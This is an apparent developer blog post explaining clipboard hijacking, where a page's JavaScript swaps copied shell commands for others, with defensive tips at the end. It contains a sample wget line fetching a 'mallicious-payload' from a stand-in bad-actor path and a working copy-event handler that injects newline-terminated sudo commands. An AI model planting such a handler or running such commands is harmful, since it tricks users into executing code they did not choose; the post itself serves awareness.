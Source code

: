 ```yaml
---
title: Beware copy/pasting code or commands from the internet
description: You never really know what is being added to your clipboard...
posted: "2020-10-19"
updated: "2021-03-19"
image: https://res.cloudinary.com/dg1mbzzfx/image/upload/v1668098135/TimBryan.dev/arget-zvHhKiVuR9M-unsplash_fejepb.jpg
credit:
  [
    Arget,
    https://unsplash.com/@arget?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText,
  ]
status: published
---
```


Credit to [https://briantracy.xyz/writing/copy-paste-shell.html](https://briantracy.xyz/writing/copy-paste-shell.html) for bringing the topic/issue to my attention!

---

## The Problem

As an avid Linux user and Windows Power User where it is commonplace to copy & paste code/scripts/commands from tutorials and help sites, it always intrigues me how bad actors find ways of exploiting users in way&apos;s I haven&apos;t considered before.

An example of this from Brian Tracy is how the data you &ldquo;copy&rdquo; from a website isn&apos;t necessarily what ends up in your Clipboard for pasting!

With just a few additional lines of JavaScript/code to a website, you can make it so that when a user performs a Copy action, the actual text copied to the clipboard is not the actual text you were trying to copy.

## How does it happen?

A real-world example of this may be some lines of code for installing a package on Debian where the code is perfectly innocent (don&apos;t worry if you don&apos;t understand it – this is just for demo purposes):

```bash
wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
tar xvzf super-awesome-package.tar.gz
```

This code is perfectly innocent and does exactly what it says on the tin, but with this example and a bad actor in play, you could end up with something like the following actually in your Clipboard, where instead of grabbing the intended package from Github, it&apos;s actually grabbing something more sinister and renaming the asset as the intended one:

```bash
wget super-awesome-package.tar.gz https://github.com/badactor/mallicious-payload.tar.gz
tar xvzf super-awesome-package.tar.gz
```

Here is an example of how the switch can be made and the malicious code can be injected with a couple of lines of JavaScript in the webpage:

```javascript
document.querySelector('#ExampleCode').addEventListener('copy', evtCopy => {
    evtCopy.clipboardData.setData('text/plain',
        'sudo wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
 \n sudo tar xvzf super-awesome-package.tar.gz \n sudo another command \n echo done'
    );
    evtCopy.preventDefault();
});
```

In the above snippet, the bad actor copies the malicious code to the Clipboard, and by ending each command with a New Line `\n` character, the shell will normally execute the next line automatically and happen so quickly that you may not even spot the swap.

## Solutions?

- While it may be a drag to do so, a simple way to combat this problem would be to have a text file open that you can paste into before pasting into the console to ensure there are no extra lines of code being added or replaced.
- Another way to combat it would be to type the commands out by hand (I used to do this a lot when I first started using Linux as I found the process of typing the whole command out from scratch helped me to pick things).

If you have any ideas, suggestions or solutions to this - please get in touch and I'll add them onto my post with a credit to you! 😊
